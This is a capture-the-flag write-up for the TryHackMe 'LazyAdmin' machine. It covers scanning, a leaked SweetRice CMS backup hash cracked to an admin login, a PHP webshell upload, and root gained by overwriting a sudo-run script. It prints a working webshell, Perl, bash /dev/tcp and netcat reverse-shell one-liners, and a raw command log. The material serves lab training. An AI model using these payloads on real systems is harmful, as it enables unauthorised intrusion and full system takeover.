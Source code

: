 # LazyAdmin — Writeup (inksec.io)
# 🧪 LazyAdmin — Writeup (inksec.io)

**Platform:** Try Hack Me  
**IP:** 10.201.72.17  
**Difficulty:** Easy  
**OS:** Linux  
**Status:** Completed  
**Writeup Path:** /CTF-Writeups/Other/THM/LazyAdmin/README.md  
**Proof Image :** https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/thm_lazyadmin.png

---

## Overview
SweetRice CMS was exposed under `/content/`. An **exposed DB/backup file** inside `/content/inc/` leaked a **manager** password hash. Cracking the MD5 gave `Password123`, which worked at `/content/as/` (admin panel). Using the upload feature, a PHP webshell granted a foothold as `www-data`. Privilege escalation came from a **sudo NOPASSWD** entry on a Perl script `/home/itguy/backup.pl` that executes `/etc/copy.sh`. Overwriting `copy.sh` with a reverse shell and running the allowed Perl script yielded **root**.

**TL;DR chain:** Backup disclosure → MD5 crack → SweetRice admin → File upload → sudo perl → copy.sh abuse → **root**

---

## Enumeration

### Nmap / Rustscan
```bash
export target=10.201.72.17
rustscan --ulimit 5000 -a $target -- -sC -sV -Pn -oN nmap_full
# Open ports
# 22/tcp OpenSSH 7.2p2 (Ubuntu 4ubuntu2.8)
# 80/tcp Apache httpd 2.4.18 (Ubuntu)
```

### Web discovery
```bash
# Top-level
gobuster dir -u http://$target -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 50 -o scans/gb_dirs.txt
# → /content (SweetRice default)

# Under /content
gobuster dir -u http://$target/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50 -o scans/gb_dirs2.txt
# → /images /js /inc
```

Identified SweetRice; checked for common disclosures. `/content/inc/` contained a backup/serialized data exposing a manager hash:
```
"Description";s:5:"admin";s:7:"manager";s:6:"passwd";s:32:"42f749ade7f9e195bf475f37a44cafcb";s:5:"close"
```

Crack with John (raw MD5):
```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
# → Password123
```

Optional version hunting:
```bash
searchsploit sweetrice
# SweetRice 1.5.1 Arbitrary File Upload / Backup Disclosure etc.
```

---

## Exploitation

### CMS Admin → Webshell
Login at `/content/as/` with `manager:Password123`. Use the upload feature to place a PHP webshell.

Minimal POST-exec shell used:
```php
<?php
if (!empty($_POST['cmd'])) { $cmd = shell_exec($_POST['cmd']); }
?>
<!doctype html><title>Web Shell</title>
<form method=post>
  <input name=cmd autofocus>
  <button>Exec</button>
</form>
<?php if(isset($cmd)) echo "<pre>".htmlspecialchars($cmd)."</pre>"; ?>
```

Spawn a reverse shell (Perl one-liner):
```bash
perl -e 'use Socket;$i="10.9.0.125";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

Shell established:
```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Privilege Escalation

Enumerate sudo permissions:
```bash
sudo -l
# Matching Defaults entries for www-data on THM-Chal:
#   env_reset, mail_badpass,
#   secure_path=...
# User www-data may run the following commands on THM-Chal:
#   (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Inspect the scripts:
```bash
cat /home/itguy/backup.pl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");

cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Overwrite `copy.sh` with our reverse shell and trigger:
```bash
echo "bash -c 'bash -i >& /dev/tcp/10.9.0.125/80 0>&1'" | sudo tee /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

Listener output:
```bash
nc -lvnp 80
# connection received
whoami
# root
```

---

## Proofs
```text
user.txt: THM{63e5bce9...REDACTED}
root.txt: THM{6637f41d...REDACTED}
```

---

## Post-Exploitation & Cleanup
- Remove webshells from upload dirs.
- Restore `/etc/copy.sh` if appropriate for the lab or leave as-is if not required.
- Close listeners and disconnect VPN.

---

## Lessons Learned
- Check CMS backup or `inc` folders for credential leaks.
- Weak MD5 hashes are trivial with `rockyou` + John.
- Sudo-maintained scripts often call other files—**edit the downstream target** if writable.

---

## Command Log (raw)
```bash
export target=10.201.72.17
rustscan --ulimit 5000 -a $target -- -sC -sV -Pn -oN nmap_full

gobuster dir -u http://$target -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 50 -o scans/gb_dirs.txt
gobuster dir -u http://$target/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50 -o scans/gb_dirs2.txt

searchsploit sweetrice
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5

# PHP webshell upload via SweetRice admin
perl -e 'use Socket;$i="10.9.0.125";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'

sudo -l
echo "bash -c 'bash -i >& /dev/tcp/10.9.0.125/80 0>&1'" | sudo tee /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
nc -lvnp 80
```

---


